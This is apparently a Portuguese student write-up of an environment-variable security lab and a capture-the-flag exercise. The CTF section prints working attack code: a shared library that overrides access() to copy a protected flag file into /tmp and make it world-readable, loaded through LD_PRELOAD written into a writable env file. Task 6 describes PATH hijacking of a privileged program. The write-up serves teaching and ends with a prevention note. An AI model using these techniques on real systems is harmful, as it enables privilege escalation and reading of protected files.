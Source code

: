 **Task 1:**
- Utilizamos o printenv e o env para dar “print” às variáveis de ambiente. Utilizamos também o  export e o unset  para dar “set” e “unset” nas mesmas variáveis de ambiente.

**Task 2:**
- Comparando as diferenças de ambos os files, usando o comando “diff”, percebemos que não há diferenças. 

![image 1](docs/images/Imagem1.png)

**Task 3:**
- Executando essa alteração, observamos que o programa executado terá acesso às variáveis de ambiente do programa original. Concluímos assim, que as variáveis de ambiente não são passadas automaticamente usando “execve()”, tendo estas de serem passadas por argumentos.

**Task 4:**
- Usando o “system()” ao invés do “execve()”, temos acesso às variáveis de ambiente do sistema completo, em vez de ser só as de utilizador.

**Task 5:**
- Ao contrário do espectável, apenas as variáveis PATH e ANY_NAME estavam presentes, faltando assim a LD_LIBRARY_PATH, que não estava disponível por questões de segurança.

**Task 6:**
- Foi possível alterar o “PATH” para o programa, de forma a que ao executar o “a.out”, este executasse o nosso ficheiro “ls” que dava “print” em “You just got hacked!”, em vez de executar o “system(“ls”). Desta forma o códico malicioso está a correr com “root privilegie”. Percebemos que quando corremos outro terminal sem as mesmas funcionalidades de segurança, o programa corre com privilégios de "root".

![image 2](docs/images/1af0b6f8-cedf-4f9b-938f-ac3c58a0d097.jpg)


## CTF semana \#4 Linux Environment

#### Investigação

Durante a investigação do servidor verificámos que existiam dois admins que partilhavam o mesmo ambiente de trabalho com a flag protegida por uma barreira de permissões. Descubrimos também que um dos admins deixou uma vulnerabilidade que nós, user nobody sem permissões, exceto na pasta /tmp e no executável flagreader, poderiamos aproveitar para chegar à flag.

#### Vulnerabilidade

Encontrámos um script a executar temporariamente que utiliza uma biblioteca partilhada, no entanto a vulnerabilidade não se encontrava no facto de ser uma biblioteca partilhada, mas sim  no ficheiro que contém as variáveis de ambiente a serem utilizadas pelo script ser um link para um ficheiro env da pasta /tmp podendo ser modificado pelo nobody(nós). Portanto é possível mudar a localização da biblioteca utilizada pelo programa e assim escrever uma função que será executada com permissão do flagreader acedendo à flag.

A vulnerabilidade em causa encontra-se nas variáveis de ambiente, ou seja, existem mais maneiras de as explorarmos. Por exemplo, qualquer executável utilizado pelo programa pode ser reescrito e ser adicionado no inicio da varriável PATH.

#### Código utilizado

    echo '
    #include <stdlib.h>

    int access(const char *pathname, int mode){
        system("/usr/bin/cat /flags/flag.txt > /tmp/tvic/flag.txt") ;
        system("chmod 777 /tmp/tvic/flag.txt");
        return 0;
    }' > /tmp/tvic/ataque.c

    gcc -fPIC -g -shared -o /tmp/tvic/ataque.so /tmp/tvic/ataque.c -lc

    echo 'LD_PRELOAD=/tmp/tvic/ataque.so' > /home/flag_reader/env

#### Prevenção

Uma opção para prevenir o ataque seria usar um caminho absoluto para o env em vez de um relativo ou proteger o ficheiro env.

